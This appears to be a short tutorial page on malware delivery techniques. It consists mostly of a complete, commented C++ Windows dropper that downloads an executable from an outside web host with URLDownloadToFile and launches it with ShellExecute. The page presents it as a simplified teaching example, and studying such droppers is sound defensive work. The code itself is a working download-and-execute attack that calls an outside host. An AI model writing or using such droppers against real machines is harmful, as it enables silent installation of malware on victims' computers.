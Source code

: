 We’ll provide some simple examples of malware delivery techniques. Note that these are simplified
examples and concepts; real-world malware often employs more sophisticated strategies and evasion
techniques

## Download and execute malware from a remote server:

A malware might be hosted on a remote server and a dropper program can be used to download and execute it:



```cpp
#include <windows.h>
#include <urlmon.h>
#include <iostream>
#pragma comment(lib, "urlmon.lib")

int main()
{
    HRESULT hr = URLDownloadToFile(
        NULL,
        "https://auto-download-one.vercel.app/hello.exe", // URL of file
        "hello.exe",                                      // local file name
        0,
        NULL);

    // HRESULT URLDownloadToFile(
    //              LPUNKNOWN            pCaller,    Used if you want COM object identity (rare in normal code).
    //              LPCTSTR              szURL,      The URL of the file you want to download.
    //              LPCTSTR              szFileName, The full local path where you want the file saved. Must include both the path and filename.
    //   _Reserved_ DWORD                dwReserved,  Reserved. Always 0.
    //              LPBINDSTATUSCALLBACK lpfnCB       Optional callback function to track download progress. NULL if you don’t care about progress.
    // );

    if (SUCCEEDED(hr))
    { // The SUCCEEDED macro in C++ is used to determine whether a given HRESULT value represents a successful operation. It evaluates to true if the HRESULT value is greater than or equal to zero, indicating success.
        std::cout << "[+] File downloaded successfully as hello.exe" << std::endl;
    }
    else
    {
        std::cerr << "[-] Download failed. HRESULT: " << std::hex << hr << std::endl;
    }

    ShellExecute(NULL, "open", "hello.exe", NULL, NULL, SW_SHOWNORMAL);

    //     HINSTANCE ShellExecuteA(
    //     HWND   hwnd,         // handle to parent window (can be NULL)
    //     LPCSTR lpOperation,  // action to perform: "open", "edit", "print", etc.
    //     LPCSTR lpFile,       // file name or program to execute
    //     LPCSTR lpParameters, // arguments if lpFile is an executable
    //     LPCSTR lpDirectory,  // default working directory (NULL = current)
    //     INT    nShowCmd      // how the window is shown (SW_SHOWNORMAL, hidden, etc.)
    // );

    return 0;
}

```